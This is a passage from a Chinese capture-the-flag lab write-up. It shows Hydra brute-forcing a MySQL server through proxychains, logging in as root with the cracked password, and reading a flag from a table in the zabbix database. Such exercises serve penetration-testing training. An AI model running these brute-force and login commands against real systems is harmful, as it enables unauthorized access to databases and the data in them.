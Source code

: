 ![image-20221121113305260183-1669009430847842.png](img/典型企业生产环境渗透赛 Local.assets/4ef7c1230d6cf445bf65a28c11a19aad.png)

在`passwd.txt`文件中新增`hy123QWE!`和`cms123cms`记录并保存。

![image-20221121113248742632-1669009432032176.png](img/典型企业生产环境渗透赛 Local.assets/352ba9ede7258e3a00d3fc3756b36101.png)

在`/root/Desktop/tools/Hydra/`目录中右键空白处点击`Open Terminal Here`打开终端，输入命令开始爆破：

```
proxychains4 hydra -L 'user.txt' -P 'passwd.txt' 192.168.12.50 mysql
```

爆破出mysql账户密码信息：

![image-20221121113223245477-1669009433166396.png](img/典型企业生产环境渗透赛 Local.assets/f7393466fd6bfad2bd6b90612130edd0.png)

获取到数据库的账户密码后远程连接mysql：

```
proxychains4 mysql -u root -phy123QWE! -h 192.168.12.50
```

![image-20221121113345908494-1669009434340611.png](img/典型企业生产环境渗透赛 Local.assets/07fedf4494854fd1ce6d158e0e70380b.png)

连接成功后查看数据库：

```
show databases;
```

![image-20211114161735645350-1669009435498156.png](img/典型企业生产环境渗透赛 Local.assets/e2b5f78efb0b3f4e4509b76c0fb6ca29.png)

发现zabbix数据库，进入zabbix：

```
use zabbix;
```

![image-20211114161837363335-1669009436624984.png](img/典型企业生产环境渗透赛 Local.assets/cf00264e05b0c1c8cfefe3c4bdce783e.png)

查看表名，发现flag表：

```
show tables;
```

![image-20211114162002679759-1669009437922245.png](img/典型企业生产环境渗透赛 Local.assets/decd64a2647eab852d2e0af00e505dd4.png)

读取flag：

```
select * from flag;
```

![image-20221111142231237170-1669009439101006.png](img/典型企业生产环境渗透赛 Local.assets/b4ab21bd5b71a1de3573be4d41c53c9b.png)

```
flag{97062052-AC19D949-C26E79F5-E8FC6CE9}
```
